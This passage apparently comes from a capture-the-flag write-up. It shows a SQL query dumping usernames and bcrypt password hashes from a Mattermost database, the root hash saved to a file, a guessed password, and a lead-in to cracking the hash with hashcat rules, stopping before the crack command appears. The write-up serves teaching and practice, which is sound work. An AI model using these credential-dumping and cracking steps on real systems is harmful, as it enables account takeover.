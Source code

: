 

I'll start with the `users` table:



    MariaDB [mattermost]> select Username,Password from Users;
    +----------------------------------+--------------------------------------------------------------+
    | Username                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | qqqq                             | $2a$10$5B3h2oM/j0qeugNf9/MwV.nYW1uBCNBnQrJr8kS0iDBuINB4mu1HC |
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | oxdfa                            | $2a$10$W.i4QH1wBaxqKAUipiFkbOlVUAXWjwyuzIQuPi8T.tFqxeg28kUj2 |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | oxdf                             | $2a$10$EA7sQu.R9OSOvLUUb/kWvetfiqKJfcn1Pzvj3xvYFZgK5Q1YJ8WyK |
    +----------------------------------+--------------------------------------------------------------+



A lot of those look like other users or me. I'll focus on the root user.

### Crack Password

I'll drop the hash into a file:



    root@kali# cat hash 
    root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO



Based on the comments from Mattermost, I'll create a file with the
password:



    oxdf@parrot$ cat password 
    PleaseSubscribe!



Now I can run with a rule file to get different variations on the
passwords in the file (just one in this case). There are many in
`/usr/share/hashcat/rules`, but why not start with the one called
"best":

